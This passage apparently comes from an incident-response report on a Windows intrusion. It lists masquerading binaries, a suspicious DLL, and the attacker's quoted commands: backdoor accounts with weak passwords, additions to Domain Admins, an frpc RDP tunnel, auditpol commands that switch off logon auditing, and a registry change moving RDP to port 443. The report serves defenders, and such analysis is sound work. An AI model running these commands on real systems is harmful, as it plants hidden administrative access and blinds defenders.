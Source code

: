 * Using niche Chinese network enumeration tooling [fscan](https://github.com/shadow1ng/fscan)

## Execution

```
C:\Users\Administrator\Desktop\shell\svhost.exe
C:\Users\<USERNAME>\Desktop\taskhost.exe
C:\winodws\taskhost.exe
```

* Masquerading as common Windows binaries

`C:\Windows\System32\spool\drivers
\color\e8i580ehei5a3.dll` - Likely malicious DLL

## Persistence

```
net user IIS_USER Pass@123 /add
net user IIS_USER !@#qwe123admin /add
net user IIS_USER Aa123456@@@ /add
net user <USERNAME> Aa123456@@@q
net user nguyentuanh Tongtong@1890 /add /domain
net group "Domain Admins" nguyentuanh /add /domain
net localgroup administrators IIS_USER /add
```

* Creates multiple local/domain users with weak or common passwords.
* Adds `nguyentuanh` to Domain Admins.
* Adds `IIS_USER` to the local Administrators group.
* Ensures attackers can get back in even if initial access is cleaned up.

Scheduled task “MaintainRDP” that attempts to run the below command:

`C:\Users\IIS_USER\Documents\frpc.exe -c C:\Users\IIS_USER\Documents\frpc.toml`

This allows the adversary to tunnel RDP to their server. See “Command and Control” for more information.



## Defence Evasion

```bash
auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable

auditpol /set /category:"Account Logon" /success:disable /failure:disable
```

* Disables auditing of logon events and credential use (removes visibility for defenders).

```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f
```

* Changes RDP to run on port 443 (blends with HTTPS traffic).
